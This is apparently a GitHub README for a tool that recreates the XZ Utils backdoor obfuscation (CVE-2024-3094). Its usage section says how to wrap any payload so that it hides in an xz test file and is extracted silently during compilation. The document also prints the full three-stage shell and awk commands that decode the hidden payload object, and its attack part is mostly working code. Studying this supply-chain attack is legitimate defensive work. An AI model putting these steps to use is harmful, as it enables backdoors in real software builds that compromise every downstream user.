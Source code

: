 # xzutils_backdoor_obfuscation
This script recreates the obfuscation technique used for the XZ utils attack (CVE-2024-3094).
It has been tested for xzutils v5.6.0 only.

⚠️ **This code is provided for educational purposes only and should not be used for malicious activities. Use at your own risks.** ⚠️

## Prerequisite
You must have the original `good-large_compressed.lzma` from  xzutils 5.6.0 in your working folder.

## Usage
Run the following
```./obfuscate_payload.sh [your_payload]```

A file `good-large_compressed.lzma.modified` will be created, that must be placed in the folder `test/files` of the xzutils 5.6.0 source code under the name `good-large_compressed.lzma`.
The backdoor will then be extracted during the compilation process.

## Limitations
This code has been tested with an edited `liblzma_la-crc64-fast.o` of the same size as the original. Using a larger file may not work, as the payload size is limited.

## Deobfuscation of the payload
This part is optional, it shows how to deobfuscate the payload from `good-large_compressed.lzma`. You can use it with the original file, or with one created using this project.

### Prerequisite
You must have the original `good-large_compressed.lzma` and `bad-3-corrupt_lzma2.xz` from  xzutils 5.6.0 in your working folder.

### Step 1: Extract the script hidden in `bad-3-corrupt_lzma2.xz`
```
gl_am_configmake=bad-3-corrupt_lzma2.xz
gl_path_unmap='tr " \t_\-" "\t \-_"'  # Reverse the character mapping
gl_prefix=`echo $gl_am_configmake | sed "s/.*\.//g"
gl_reverse_config="sed ':a;N;\$!ba;s/\n//g' $gl_am_configmake | eval $gl_path_unmap"
eval $gl_reverse_config
```

This will give you a bash script that will execute the step 2.

### Step 2: Extract the second script hidden in `good-large_compressed.lzma`
Run the following code, taken from the output of stage 1
```
export i="((head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 		>/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +724)";(xz -dc good-large_compressed.lzma|eval $i|tail -c +31265|tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377")|xz -F raw --lzma1 -dc
```

This will give you another bash script that will execute the step 3.

### Step 3: Extract the payload hidden in `good-large_compressed.lzma`
Run the following code, taken from the output of stage 2.
```
W=88792
N=0
p="good-large_compressed.lzma"
i="((head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +724)"

xz -dc $p | eval $i | LC_ALL=C sed "s/\(.\)/\1\n/g" | LC_ALL=C awk 'BEGIN{FS="\n";RS="\n";ORS="";m=256;for(i=0;i<m;i++){t[sprintf("x%c",i)]=i;c[i]=((i*7)+5)%m;}i=0;j=0;for(l=0;l<4096;l++){i=(i+1)%m;a=c[i];j=(j+a)%m;c[i]=c[j];c[j]=a;}}{v=t["x" (NF<1?RS:$1)];i=(i+1)%m;a=c[i];j=(j+a)%m;b=c[j];c[i]=b;c[j]=a;k=c[(a+b)%m];printf "%c",(v+k)%m}' | xz -dc --single-stream | ((head -c +$N > /dev/null 2>&1) && head -c +$W) > liblzma_la-crc64-fast.o || true
```

This will extract the obfuscated payload `liblzma_la-crc64-fast.o`
